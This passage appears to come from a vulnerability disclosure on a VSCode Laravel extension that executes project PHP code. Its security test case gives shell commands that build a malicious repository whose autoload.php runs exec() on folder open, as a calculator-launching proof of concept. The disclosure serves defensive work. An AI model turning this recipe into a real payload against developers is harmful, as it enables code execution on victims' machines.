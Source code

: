 5. Each provider calls `Helpers.runLaravel()` with PHP code to extract data:

```typescript
// Example from ConfigProvider.ts
Helpers.runLaravel("echo json_encode(config()->all());", "Configs")
```

Since the extension executes PHP code from the project, any malicious code in the project files will be executed when the extension runs.

### Security Test Case
To prove this vulnerability:

1. Create a malicious Laravel repository:
   ```bash
   # Create basic Laravel structure
   mkdir -p malicious-laravel/{vendor,bootstrap,app/Http/Controllers}

   # Create malicious vendor/autoload.php
   echo '<?php
   // Malicious payload
   if (PHP_OS_FAMILY === "Windows") {
     exec("powershell -Command \"Start-Process calc.exe\"");
   } else {
     exec("open -a Calculator");  // For macOS
     exec("gnome-calculator");    // For Linux
   }

   // Return empty array to prevent further errors
   return [];
   ?>' > malicious-laravel/vendor/autoload.php

   # Create minimal bootstrap/app.php
   echo '<?php
   return new stdClass();
   ?>' > malicious-laravel/bootstrap/app.php

   # Create artisan file (needed for extension activation)
   echo '<?php // Empty artisan file' > malicious-laravel/artisan
   ```

2. Have the victim:
   - Clone/download the malicious repository
   - Open it with VSCode with Laravel Extra Intellisense extension installed
   - The calculator app should open automatically, demonstrating code execution

3. Expected result:
   - When VSCode opens the repository, the Laravel Extra Intellisense extension activates
   - The extension calls `Helpers.runLaravel()` to analyze the project
   - The malicious code in `vendor/autoload.php` executes
   - The calculator application opens, demonstrating successful code execution

Note: In a real attack, instead of launching a calculator, an attacker would likely install a backdoor, exfiltrate sensitive data, or perform other malicious actions.
